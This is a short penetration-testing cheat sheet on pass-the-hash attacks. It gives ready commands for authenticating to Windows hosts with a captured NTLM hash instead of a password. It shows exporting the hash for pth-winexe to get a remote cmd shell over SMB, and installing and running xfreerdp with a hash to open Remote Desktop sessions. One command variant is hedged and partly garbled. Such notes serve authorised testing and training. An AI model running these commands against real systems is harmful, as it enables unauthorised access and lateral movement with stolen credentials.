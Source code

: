 # Pass the Hash - Reusing Hashes

Pass the hash \(PTH\) is a technique that lets the user authenticate by using a valid username and the hash, instead of the unhashed password. So if you have gotten a hold of a hash you might be able to use that hash against another system.

Pass the hash is a suite of different tools.

## SMB

So in order to use pass the hash we first need to put the hash in a env variable using the export command:

So we will atuhenticate against a smb-service.

```text
export SMBHASH=aad3b435b51404eeaad3b435b51404ee:6F403D3166024568403A94C3A6561896
```

```text
pth-winexe -U administrator //192.168.1.101 cmd
```

I think you can run it like this too:

```text
pth-winexe -U admin/hash:has //192.168.0.101 cmd
```

## Remote Desktop

```text
apt-get update
apt-get install freerdp-x11
```

```text
xfreerdp /u:admin /d:win7 /pth:hash:hash /v:192.168.1.101
```

[https://www.kali.org/penetration-testing/passing-hash-remote-desktop/](https://www.kali.org/penetration-testing/passing-hash-remote-desktop/)

